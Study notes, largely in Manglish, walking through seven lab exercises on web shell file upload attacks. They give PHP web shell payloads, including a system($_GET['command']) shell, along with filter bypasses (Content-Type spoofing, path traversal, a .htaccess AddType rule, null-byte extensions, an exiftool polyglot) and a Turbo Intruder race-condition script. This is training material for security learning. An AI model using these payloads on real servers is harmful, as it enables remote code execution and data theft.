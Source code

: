 -->A `web shell` is a malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests to the right endpoint. 
-->If you're able to successfully upload a web shell, you effectively have full control over the server. This means you can read and write arbitrary files, exfiltrate sensitive data, even use the server to pivot attacks against both internal infrastructure and other servers outside the network

     Lab-1(Remote code execution via web shell upload)
-->ivide namal aadyam wiener:peter aayi keranam
-->enit namude account il puthiya avatar add chyan ulla option undakum
-->so upload option upayogich puthiya image upload chyuka
-->ini thirich my account il poi nokiyal kanam namude avatar avide kanikum
-->ini burp history il pokuka.avide /POST avatar, athupole GET avatar um kanam
-->athayath namal upload chythathum pine upload chythathin shesham aa image namude retireve chyth tharunathum(ee GET req kitan burp il image req tick idanam)
-->ini enth chyanamenal ee rand request repeater il iduka
-->enit /POST avater request il nokiyal kanam ee kodukuka image oru form roopathil aan pokunath.so athil filename=cat.jpg ennayirikum undavuka.so ath mati filename=exploit.php enn kodukuka enit aa image inte valiya oru formatum undakum.ath clear chyuka enit avide - 
           <?php echo file_get_contents('/home/carlos/secret'); ?>
	enna content kodukuka
-->ini namude mate /GET request il poi - GET /files/avatars/expoloit.php HTTP/1.1 enn kodukuka apol namude aa php code il enthano koduthath ath execute aayikolum
-->NOTE: ivide php file execute chyunond aan ee rethiyil exploit chyan kazhinjath
-->nerthe php code aakunilegi ith try chyth noku:
                       <?php echo system($_GET['command']); ?>


       Lab-2( Web shell upload via Content-Type restriction bypass)
-->ivide engane aan chyunathenal content-type: header exploit chythitan
-->chela samayangalil server content-type: enna header nokiyan validate chyuka.so ivide namal .php file idunu apol automatic aayi application/php enn content-type kanikum.apol ath namal image/jpeg enn aki koduth send chythal mathi
-->so nerthe pole oru php file undakuka enit athil -            <?php echo file_get_contents('/home/carlos/secret'); ?> .enn kodukuka 
-->file upload chyuka apol error kanikum.image/jpeg type mathrame aaku enn kanikum
-->so nammal onukoodi upload chyuka.ipol intercept chyuka.enit athil content-type:application/php ennath image/jpeg enn akuka enit send adikumbil response kanam upload aayi en
-->ini thirich aa image il poit inspect element adikuka apol athinte sourse src= file kanikum.so aa file il poi nokiyal kanam aa php code inte result so aayi

      Lab-3( Web shell upload via path traversal)
-->ivide nerthe pole alla.nerthe rand lab ilum namal upload chyuna php file server execute chyth tharunund.ivide angane chyunila pakaranam athile content athpole display chyth tharunu enn mathram
-->so namal exploit.php enna file upload chyumbol polum server oru error um tharunila
-->enit aa pathilek poyal aa php code angane thane display chyth tharum
-->so ee avatar upload chyuna /POST request edukuka enit athil - Content-Disposition: form-data; name="avatar"; filename="exploit.php"  enn kanum
-->so ivide filename="../exploit.php" enn koduth ee file parent directory il idan patumon nokuka.apol response 200 ok enn kanikumengilum ../ enn kanikila so athinartham ath path traversal aayi upload nadanitila ennan
-->so ini enth venamenal ../ ennath url encode chyth ..%2f ennakuka.ini send adikumbol response il 200 ok ..%2fexploit.php enn kanikum.
-->==nammal ingane parent directory il idunath enthinanenal current directroyil file execute chyunila.pakarnam parent directory il file idumbol server aa file execute chyan sadhyatha und==
-->so ini namal aa upload chytha image site il ninum nokuka.inspect element adich src=" /files/avatars/..%2fexploit.php" edukuka.enit aa path ilek poyal aa file execute cyunathayi kanam.so aayi

     Lab-4(Web shell upload via extension blacklist bypass)
-->==The .htaccess (Hypertext Access) file is an Apache distributed server configuration file. You can use the .htaccess file to set server configurations for a specific directory.You can use the .htaccess file to modify various configurations and thus make changes to your website. These changes include authorization, error handling, redirects for specific URLs, user permissions, etc==
-->ivide namuk php file upload chyan patila.error varuna response il nokumbol kanam-Server: Apache/2.4.41 (Ubuntu) enn.so apache aan server enn namal manasilaki.ini namal mumbathe point il kandu .htaccess file oru directory il aaki server configuration chyan patumenath.so namal enth chyanamenal `.shell` enna extension varuna files oke php execute chyunathpole execute chyanam enna oru configuration ee .htaccess file il undakunu.apol pine namuk exploit.php enn itt upload chyunathin pakaram exploit.shell enn ittal mathi php execution thane nadanolum
-->so aadyam oru normal image upload chyuka
-->ini exploit.php enna file upload chyuka apol error varum athupole server ine patti disclose chythathum kanum
-->ini filename="exploit.php" ullath mati filename=".htaccess" ennakuka.athinte thazhe -  <?php echo file_get_contents('/home/carlos/secret'); ?> enna exploit.php file inte content maati ->AddType application/x-httpd-php .shell (.josu,.shajan enthum kodukam).ennu kodukuka.ith namal .htaccess file il kodukuna configuration aan.apol enth sambavikumenal ini .shell enna extension varuna files upload aakumbol automatic aayi ith php execution aayitan bhaviyil execute chyapeduka
-->ini ith send chyuka.apol 200 OK kanam.athinartham aa directoryil ee .htaccess file upload aayitund
-->ini namal undo adich nerthe exploit.php upload request il thane thirich varuka.enit filename="exploit.shell" enn kodukuka.content -><?php echo file_get_contents('/home/carlos/secret'); ?> thane aano en urap varuthuka.eni send adichal aa file upload aakum. ini namal files/avatar/exploit.shell pathilek poyal aa php code run aakum angane carlos inte secret kanan patum.aayi

    Lab-5(Web shell upload via obfuscated file extension)
-->ivide namal aadyam oru normal image upload chyuka.enit athile /POST and /GET request edukuka.athayath upload chyuna image inte request um athinu shesham aa same image namuk retireve chyunathum.ella lab ilum ingane thane aan chyunath
-->ini upload chyumbol namuk kanam error varunath
-->so filename="exploit.php" ennath namal "exploit.php%00.jpg" ennakunu.null byte injection aan chythath
-->ipol response il kanam `The file avatars/exploit.php has been uploaded` enn. null byte aayathkond baaki automatic aayi remove aayi
-->ini namal files/avatar/exploit.php il poyal carlos inte secret kitum.aayi

    Lab-6(Remote code execution via polyglot web shell upload)
-->chela samayangalil server oru file ile content thane analyze chyum genuine aano enariyan.ie image file il dimensions undakum apol dimensions ilatha file aannengil reject chyum
-->so ivide namal exiftool enna tool use chyth venduna image file ile meta datas modify chyunu
-->so ->exiftool bg.jpg ennadikumbol aa image file ile meta data kanikum
-->ini ->exiftool -commen="hello" bg.jpg ennadichit pinem ->exiftool bg.jpg adichu nokiyal puthiya oru comment kanan patum
-->so namal enth chyunu enal ee commentile hello value in pakaram oru php code athil kodukunu angane namuk carlos inte secret code kandupidikam
-->exiftool -Comment="<?php echo '################# ' . file_get_contents('/home/carlos/secret') . ' #########################'; ?>" bg.jpg -0 webshell.php
-->ivide #### ennu itathu enthinanenal peten manasilakan aanu evide aan secret code vanathen ariyan
-->ingane php code koduthathin shesham ath mattoru file il akuka(ie webshell.php). ingane chyumbol ath oru polyglot file aayi mari ie .php extension und but ullil athoru jpg file aan.so server in oru samshayavum undakila.ini ee webshell.php file upload chyuka enit /files/avatar/webshell.php enn path il repeateril poi nokiyal kanam responsil ###########   secretcode  #########   .aayi

     Lab-7(Web shell upload via race condition)
-->ivide namal upload chyuna files server avarude thane reethiyil validate chyunu.enit validation pass chyunilengi ath remove chyunu.chelapo server oru prathyeka sandbox il file kondupoi idum enit avide vech analuse chythite accept chyy
-->ingane analyse chyuna aa samayam kond namuk exploitation nadathanam.ie race aayi file kore upload chyanam apol server in ellam validate chyan patanamenila
-->ivide namal aadyam satharana pole oru normal file upload chyunu
-->ini turbo intruder extension install chyanam
-->ini expoit.php enna file upload chyanam apol error varum but kozhapamila.namuk enthayalum ee request vendathan
-->ini /GET /files/avatars/exploit.php enna request edukuka.right click chyth turbo intruder ilek send chyuka
-->enit enth venamenal oru python code und ath add kodukanam.enit aadyam /POST filename="exploit.php" enna reqeust kodukanam.pine athin shehsam thazhe aayi /GET /files/avatar/exploit.php enna request um koduth script add chyanam.enit start attack kodukumbol kanam ee same exploit.php enna file upload chyunath chara para aayi send aakunath apol server in elam validate chyan patila angane ee file execute aakunu server il angane namuk carlos inte secret code kitunu

==============================================================
turbo intruder python code:

      def queueRequests(target, wordlists):
      engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


    def handleResponse(req, interesting):
    table.add(req)
	
==============================================================